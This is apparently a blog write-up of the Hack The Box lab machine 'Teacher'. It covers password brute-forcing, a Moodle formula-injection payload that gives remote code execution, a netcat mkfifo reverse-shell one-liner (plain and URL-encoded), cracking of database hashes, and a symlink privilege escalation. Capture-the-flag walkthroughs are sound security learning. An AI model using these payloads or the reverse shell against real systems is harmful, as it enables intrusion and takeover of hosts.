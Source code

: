```yaml
---
layout: post
title: Hack The Box - Teacher
categories: hack-the-box
image: /hackthebox/teacher/0.png
---
```

<hr>
### Quick Summary
#### Hey guys , today Teacher retired and here is my write-up about it. I don't have too much to say about this box. It was an easy regular machine , We will exploit an authenticated remote code execution in a vulnerable version of a web application called moodle to get an initial shell on the box. And for privilege escalation we will find a directory which permissions are set to read , write and execute by anyone , and from there we can create a symlink to `/root` or anything else we want to access. It's a linux box and its ip is `10.10.10.153` I added it to `/etc/hosts` as `teacher.htb`. Let's jump right in !
![](/images/hackthebox/teacher/0.png)
<hr>
### Nmap
#### As always we will start with nmap to scan for open ports and services : 
`nmap -sV -sT -sC teacher.htb`
![](/images/hackthebox/teacher/1.png)
#### We only see http running on port 80. Let's see what's in there.
<br>
<hr>
### HTTP Initial Enumeration
![](/images/hackthebox/teacher/2.png)
#### There is just a static website titled `Blackhat highschool` , I looked into other pages like `Courses` , `Students` etc... And also checked their source code. And on `Gallery` : 
![](/images/hackthebox/teacher/3.png)
#### I found this line in the source :
![](/images/hackthebox/teacher/4.png)
#### for `<img src="images/5.png">` there is an `onerror` attribute to print `That's an F` in the console. So I checked the console : 
![](/images/hackthebox/teacher/5.png)
#### Weird let's check that image. `http://teacher.htb/images/5.png` :
![](/images/hackthebox/teacher/6.png)
#### Corrupted file ? Let's check if it's really a corrupted image or it's not an image at all :
`curl http://teacher.htb/images/5.png`
![](/images/hackthebox/teacher/7.png)
```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.                                                 

Could you guys figure out what the last charachter is, or just reset it?                                                                   

Thanks,
Giovanni
```
#### Nice , we have a username and a password but we still need to figure out the last character. But where will we use these credentials anyway ? I ran gobuster with `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` in the background and got some results , one of them was `/moodle`. 
`http://teacher.htb/moodle`
![](/images/hackthebox/teacher/8.png)
> Moodle is a free and open-source learning management system written in PHP and distributed under the GNU General Public License  -[Wikipedia](https://en.wikipedia.org/wiki/Moodle)

#### On the login page there's a guest login :
![](/images/hackthebox/teacher/9.png)
#### However I couldn't achieve anything from that guest login.
<br>
<hr>
### Bruteforcing the last character
#### We have the credentials but we need to figure out the last character of the password. I created a list of numbers , letters and special chars and printed them next to the password.
#### `for i in {a..z}; do echo Th4C00lTheacha$i; done > list.txt` this will print all the letters next to `Th4C00lTheacha`
#### Then I added some special chars manually like `!@#$%^&*()_-+=.?/\` and finally I added numbers : `for i in {0..9}; do echo Th4C00lTheacha$i; done >> list.txt`
#### `list.txt` : 
```
Th4C00lTheachaa
Th4C00lTheachab
Th4C00lTheachac
Th4C00lTheachad
Th4C00lTheachae
Th4C00lTheachaf
Th4C00lTheachag
Th4C00lTheachah
Th4C00lTheachai
Th4C00lTheachaj
Th4C00lTheachak
Th4C00lTheachal
Th4C00lTheacham
Th4C00lTheachan
Th4C00lTheachao
Th4C00lTheachap
Th4C00lTheachaq
Th4C00lTheachar
Th4C00lTheachas
Th4C00lTheachat
Th4C00lTheachau
Th4C00lTheachav
Th4C00lTheachaw
Th4C00lTheachax
Th4C00lTheachay
Th4C00lTheachaz
Th4C00lTheacha!
Th4C00lTheacha@
Th4C00lTheacha#
Th4C00lTheacha$
Th4C00lTheacha%
Th4C00lTheacha^
Th4C00lTheacha&
Th4C00lTheacha*
Th4C00lTheacha(
Th4C00lTheacha)
Th4C00lTheacha_
Th4C00lTheacha-
Th4C00lTheacha+
Th4C00lTheacha=
Th4C00lTheacha.
Th4C00lTheacha?
Th4C00lTheacha/
Th4C00lTheacha\
Th4C00lTheacha0
Th4C00lTheacha1
Th4C00lTheacha2
Th4C00lTheacha3
Th4C00lTheacha4
Th4C00lTheacha5
Th4C00lTheacha6
Th4C00lTheacha7
Th4C00lTheacha8
Th4C00lTheacha9
```
#### Since it's a small list , I used burp intruder to bruteforce the password. Let's intercept the request and send it to intruder :
![](/images/hackthebox/teacher/10.png)
<br>
<br>
![](/images/hackthebox/teacher/11.png)
<br>
<br>
![](/images/hackthebox/teacher/12.png)
#### After it's finished , all the responses were 870 bytes in length except the response of the payload `Th4C00lTheacha#`.
![](/images/hackthebox/teacher/13.png)
#### So probably this is the right password , let's check.
![](/images/hackthebox/teacher/14.png)
#### It worked and now we are in as `Giovanni`
<br>
<hr>
### RCE , Initial Shell as `www-data`
#### After some enumeration I didn't find anything interesting , so I searched on Google and found this [article](https://blog.ripstech.com/2018/moodle-remote-code-execution/). Let's try to reproduce that vulnerability.
#### First , we will go to the `Algebra` course :
![](/images/hackthebox/teacher/15.png)
#### Then we will turn editing on :
![](/images/hackthebox/teacher/16.png)
#### Now we can edit the course , so we will choose any topic and click on `Add an activity or resource` and we will choose `Quiz` :
![](/images/hackthebox/teacher/17.png)
#### Then we will just fill in the required information :
![](/images/hackthebox/teacher/18.png)
#### And click on `Save and display`.
![](/images/hackthebox/teacher/19.png)
#### After that we will click on `edit quiz` :
![](/images/hackthebox/teacher/20.png)
#### And add a new question. Question type will be `Calculated` :
![](/images/hackthebox/teacher/21.png)
<br>
<br>
![](/images/hackthebox/teacher/22.png)
#### Again we will fill in the required information :
![](/images/hackthebox/teacher/23.png)
#### And finally we reach the actual exploitation , we will set the answer formula to :
```
/*{a*/`$_GET[0]`;//{x}}`
```
![](/images/hackthebox/teacher/24.png)
#### This will allow us to pass system commands through a url parameter called `0` , More info about how the exploit is working can be found in the previously mentioned article.
#### After saving the changes we will get this page : 
![](/images/hackthebox/teacher/25.png)
#### We will click on `Next Page` to finally get to the vulnerable page :
![](/images/hackthebox/teacher/26.png)
#### Let's add the parameter `0` and get a reverse shell :
#### Shell : `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ip port >/tmp/f`
![](/images/hackthebox/teacher/27.png)
#### Note : the payload is url encoded. So final payload will be : `&0=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+ip+port+>/tmp/f`
#### After sending the request , our listener gets a callback. And we get a reverse shell as `www-data` :
![](/images/hackthebox/teacher/28.png)
#### There is only `giovanni` on the box and we can't access his `/home` directory as `www-data`.
![](/images/hackthebox/teacher/29.png)
<hr>
### Hardcoded Database Credentials , Privilege Escalation to `giovanni`
#### Back to `/var/www/html/moodle` , I wanted to check config files and other stuff to see if there are any information that can help. And in `config.php` I found database credentials :
![](/images/hackthebox/teacher/30.png)
#### Sweet , Let's see what's in there.
`mysql -h 127.0.0.1 -u root -p`
![](/images/hackthebox/teacher/31.png)
#### We are not in any database `[(none)]` , Let's list the databases :
`SHOW DATABASES;`
![](/images/hackthebox/teacher/32.png)
#### `moodle` is interesting and might have some passwords.
`USE moodle;`
![](/images/hackthebox/teacher/33.png)
#### Now let's check the tables :
`SHOW TABLES;`
![](/images/hackthebox/teacher/34.png)
#### A lot of tables , but an interesting one is called `mdl_user` :
![](/images/hackthebox/teacher/35.png)
#### Alright , let's see what's in that table :
`SELECT * from mdl_user;`
![](/images/hackthebox/teacher/36.png)
#### We didn't get the best output :D but anyway I looked into it and found this `md5` hash :
![](/images/hackthebox/teacher/37.png)
#### And its name is `Giovannibak` , probably a backup for giovanni's password. [crackstation](https://crackstation.net/) was able to crack it :
![](/images/hackthebox/teacher/38.png)
#### The password is `expelled`, we can `su` to `giovanni`
![](/images/hackthebox/teacher/39.png)
#### Now we own user.
<br>
<hr>
### `777`. Ability to read , write and execute anything on the system
#### In giovanni's `/home` directory there is a directory called `work` which has two directories `courses` and `tmp`. Nothing Special.
![](/images/hackthebox/teacher/40.png)
<br>
<br>
![](/images/hackthebox/teacher/41.png)
#### After a lot of enumeration I found in `/usr/bin` a script called `backup.sh` :
![](/images/hackthebox/teacher/42.png)
<br>
<br>
![](/images/hackthebox/teacher/43.png)
#### We don't really care about the `tar` commands , What we care about is that it's changing current directory to `/home/giovanni/work` then changes it once again to `/home/giovanni/work/tmp` then changes permissions to `777` recursively. This means that any user can read , write and execute any file in `/home/giovanni/work/tmp`. So if we created a symlink for `/root` in `/home/giovanni/work/tmp` we will have access to `/root`. In normal conditions creating a symlink to `/root` won't let you have access to it if you don't have the permissions to. Because it's still linking to a directory that you are not authorized to access. But since `/home/giovanni/work/tmp` has permissions set to `777` , Anyone has access to what's in there even symlinks. This [article](https://www.maketecheasier.com/file-permissions-what-does-chmod-777-means/) explains it very well. Read [this](https://stackabuse.com/symbolic-links-in-unix-linux/) if you don't know what's a symlink.
#### Alright , Let's create a symlink for `/root` in `/home/giovanni/work/tmp`
`ln -s /root ./tmp`
![](/images/hackthebox/teacher/44.png)
<br>
<br>
![](/images/hackthebox/teacher/45.png)
#### And we owned root !
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### Previous Hack The Box write-up : [Hack The Box - RedCross](/hack-the-box/redcross/)
<hr>
